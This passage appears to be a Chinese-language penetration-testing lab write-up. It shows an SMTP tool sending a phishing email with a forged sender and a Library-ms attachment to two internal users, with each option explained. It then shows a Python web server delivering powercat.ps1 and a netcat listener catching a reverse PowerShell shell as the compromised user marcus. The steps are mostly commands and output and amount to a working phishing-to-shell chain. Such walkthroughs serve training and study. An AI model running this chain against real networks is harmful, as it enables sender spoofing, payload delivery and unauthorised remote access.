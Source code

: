 ```
 -> 72 lines sent
<-  250 Queued (13.172 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```
> `-t daniela@beyond.com -t marcus@beyond.com`: 收件人給 daniela 和 marcus\
`--from john@beyond.com`: 寄件人偽造 john@beyond.com\
`--attach @config.Library-ms`: 附件 `config.Library-ms`\
`--server 192.168.117.242`: 指定 SMTP 伺服器 (MAILSRV1)\
`--body @body.txt`:郵件內容\
`--header "Subject: Staging Script"`: 郵件標題（"Staging Script"）\
`--suppress-data`: 隱藏郵件內容細節，只顯示 SMTP 結果\
`-ap`: 啟用身份驗證
>> 成功送出

#### 7. 成功獲得內部網路存取
```
┌──(chw㉿CHW)-[~/beyond]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.117.242 - - [18/Mar/2025 10:27:07] "GET /powercat.ps1 HTTP/1.1" 200 -

```
```
┌──(chw㉿CHW)-[~/beyond]
└─$ nc -nvlp 8888
listening on [any] 8888 ...

connect to [192.168.45.214] from (UNKNOWN) [192.168.117.242] 62505
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0> whoami
whoami
beyond\marcus
PS C:\Windows\System32\WindowsPowerShell\v1.0> hostname
hostname
CLIENTWK1
PS C:\Windows\System32\WindowsPowerShell\v1.0> ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.73.243
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.73.254
PS C:\Windows\System32\WindowsPowerShell\v1.0> 
```
